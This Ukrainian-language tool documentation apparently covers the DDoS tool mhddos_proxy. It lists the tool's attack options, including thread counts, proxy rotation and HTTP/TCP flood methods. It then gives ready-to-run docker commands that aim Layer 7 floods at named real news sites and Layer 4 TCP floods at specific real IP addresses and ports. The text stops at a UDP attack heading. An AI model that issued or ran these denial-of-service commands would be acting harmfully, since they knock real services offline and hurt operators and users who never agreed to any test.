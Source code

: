 І окремо наводжу документацію. [Посилання на неї](https://github.com/porthole-ascend-cinnamon/mhddos_proxy#%D0%B4%D0%BE%D0%BA%D1%83%D0%BC%D0%B5%D0%BD%D1%82%D0%B0%D1%86%D1%96%D1%8F)

```sh
usage: runner.py target [target ...]
                 [-t THREADS] 
                 [-p PERIOD]
                 [--proxy-timeout TIMEOUT]
                 [--rpc RPC] 
                 [--udp-threads UDP_THREADS]
                 [--debug]
                 [--http-methods METHOD [METHOD ...]]

positional arguments:
  targets                List of targets, separated by space

optional arguments:
  -h, --help             show this help message and exit
  -c, --config URL       URL to a config file (list of targets in plain text)
  -t, --threads 300      Threads per CPU core (default is 300)
  -p, --period 600       How often to update the proxies (default is 600)
  --proxy-timeout 3      How many seconds to wait for the proxy to make a connection.
                         Higher values give more proxies, but with lower speed/quality.
                         Parsing also takes more time (default is 3)

  --debug                Enable debug output from MHDDoS
  --rpc 1000             How many requests to send on a single proxy connection (default is 1000)
  --udp-threads 1        Threads to run per UDP target (default is 1, change carefully)

  --http-methods GET     List of HTTP(s) attack methods to use.
                         (default is GET, POST, STRESS, BOT, PPS)
                         Refer to MHDDoS docs for available options
                         (https://github.com/MHProDev/MHDDoS)
```

<br/>
  
## Варіанти атак

* Атака на Layer 7 (по HTTP(S) адресах)
  ```sh
  sudo docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru https://tass.ru -t 1000 --debug --http-methods BYPASS
  ```
  ```sh
  sudo docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy 5.188.56.124:80 5.188.56.124:3606 -t 1000 --debug --http-methods BYPASS
  ```
* Атака на Layer 4 (по TCP адресам)
  ```sh
  sudo docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy tcp://194.54.14.131:4477 tcp://194.54.14.131:22 -t 1000 --debug --http-methods TCP
  ```
* Атака на Layer 4 (по UDP адресам)
